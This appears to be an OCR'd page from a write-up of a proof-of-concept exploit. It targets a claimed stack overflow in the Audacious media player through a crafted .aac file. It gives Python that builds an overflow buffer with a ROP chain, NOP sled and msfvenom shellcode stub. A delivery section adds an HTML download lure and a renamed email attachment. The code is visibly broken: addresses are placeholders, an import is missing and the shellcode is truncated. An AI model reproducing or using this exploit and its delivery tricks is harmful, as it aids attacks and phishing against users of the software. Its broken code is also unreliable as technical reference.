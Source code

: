 The exploit requires a specially crafted `.aac` file:

```python
#!/usr/bin/env python
# Audacious AAC Exploit PoC

def create_malicious_aac():
    """
    Generate malicious AAC file for Audacious stack overflow
    """
    
    # AAC header structure
    aac_header = "AAC_HEADER_MAGIC"
    
    # ROP chain payload
    rop_chain = struct.pack('<I', 0x????????)  # pushad; ret
    rop_chain += struct.pack('<I', 0x68832D18)  # push esp; ret
    rop_chain += struct.pack('<I', 0x????????)  # sub esp, 0x1FF; ret
    
    # RET sled
    ret_sled = struct.pack('<I', 0x????????) * 20
    
    # NOP sled
    nop_sled = "\x90" * 100
    
    # Shellcode (calculator pop for PoC)
    shellcode = "\xfc\x48\x83\xe4\xf0..."  # msfvenom payload
    
    # Buffer overflow trigger
    overflow_data = "A" * 1024  # Trigger stack overflow
    overflow_data += rop_chain
    overflow_data += ret_sled  
    overflow_data += nop_sled
    overflow_data += shellcode
    
    return aac_header + overflow_data

# Generate malicious file
with open("malicious.aac", "wb") as f:
    f.write(create_malicious_aac())
```

### Delivery Mechanisms

**Local Exploitation:**
```bash
# Direct file execution
audacious malicious.aac
```

**Remote Exploitation:**
```html
<!-- Web-based delivery -->
<a href="malicious.aac" download>Download Music File</a>

<!-- Email attachment vector -->
Subject: New Music Collection
Attachment: song.aac (malicious.aac renamed)
```
